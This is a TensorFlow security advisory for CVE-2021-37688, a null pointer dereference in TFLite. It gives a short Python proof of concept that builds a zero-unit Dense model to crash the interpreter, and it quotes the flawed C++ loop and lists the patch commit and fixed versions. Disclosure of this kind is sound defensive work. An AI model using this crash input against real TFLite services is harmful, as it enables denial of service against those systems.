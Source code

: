 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2021-162.md
## TFSA-2021-162: Null pointer dereference in TFLite

### CVE Number
CVE-2021-37688

### Impact
An attacker can craft a TFLite model that would trigger a null pointer
dereference, which would result in a crash and denial of service:

```python
import tensorflow as tf

model = tf.keras.models.Sequential()
model.add(tf.keras.Input(shape=(1, 2, 3)))
model.add(tf.keras.layers.Dense(0, activation='relu'))

converter = tf.lite.TFLiteConverter.from_keras_model(model)
tflite_model = converter.convert()

interpreter = tf.lite.Interpreter(model_content=tflite_model)
interpreter.allocate_tensors()

interpreter.invoke()
```

The [
implementation](https://github.com/tensorflow/tensorflow/blob/149562d49faa709ea80df1d99fc41d005b81082a/tensorflow/lite/kernels/internal/optimized/optimized_ops.h#L268-L285)
unconditionally dereferences a pointer.

```cc
  if (y4 > 1) {
    // ...
  } else {
    for (int i0 = 0; i0 < y0; ++i0) {
      const T* input2_data_ptr = nullptr;
      for (int i1 = 0; i1 < y1; ++i1) {
        input2_data_ptr = input2_data_reset;
        for (int i2 = 0; i2 < y2; ++i2) {
          scalar_broadcast_f(y3, params, *input1_data_ptr, input2_data_ptr,
                             output_data_ptr);
        }
      }
    }
  }
```

### Patches
We have patched the issue in GitHub commit
[15691e456c7dc9bd6be203b09765b063bf4a380c](https://github.com/tensorflow/tensorflow/commit/15691e456c7dc9bd6be203b09765b063bf4a380c).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang of Baidu Security.
